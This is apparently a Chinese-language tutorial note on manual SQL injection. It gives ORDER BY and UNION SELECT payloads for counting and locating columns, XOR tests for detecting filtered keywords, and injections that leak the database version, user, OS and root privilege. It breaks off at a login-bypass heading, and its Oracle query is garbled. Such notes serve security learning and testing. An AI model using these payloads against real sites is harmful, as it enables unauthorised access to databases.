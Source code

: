 ![12S2uT.png](https://s2.ax1x.com/2020/02/07/12S2uT.png)

原理如上

#### 数据库查询版本

- Mssql: select @@version
- Mysql: select version（）/select @@version
- oracle: select banner from ￥version
- Postgresql: select version（）

#### 判断过滤了哪些字符？

采用异或注入。
在id=1后面输入 '(0)'
发现不出错，那就将0换成1=1
如果出错，那就是成功了

如果括号里面的判断是假的，那么页面就会显示正确
那么同理，
如果修改里面的内容为length(‘union’)!=0
如果页面显示正确，那就证明length(‘union’)==0的，也就是union被过滤了

#### 判断字段长度

- #### order by 数字 可以判断字段的个数
- 也可以用猜字段 union select 1，2，3

```sql
id=1' order by 1
id=1' order by 2
...
id=1' order by n
```

如果n出现了错误那么共有n-1列，union查询必须列数量对齐，也就是说union select 1,2,...,n-1 from ...

#### 判断字段回显位置

在链接后面添加语句`union select 1,2,3,4,5,6,7,8,9,10,11#`进行联合查询（联合查询时记得把前面的查询为空）来暴露可查询的字段号。

#### 判断数据库注入

利用内置函数暴数据库信息
version()版本；database()数据库；user()用户；
不用猜解可用字段暴数据库信息(有些网站不适用):

```sql
and 1=2 union all select version()
and 1=2 union all select database()
and 1=2 union all select user()
操作系统信息：and 1=2 union all select @@global.version_compile_os from mysql.user
数据库权限：and ord(mid(user(),1,1))=114 返回正常说明为root
```

#### 绕过登陆验证
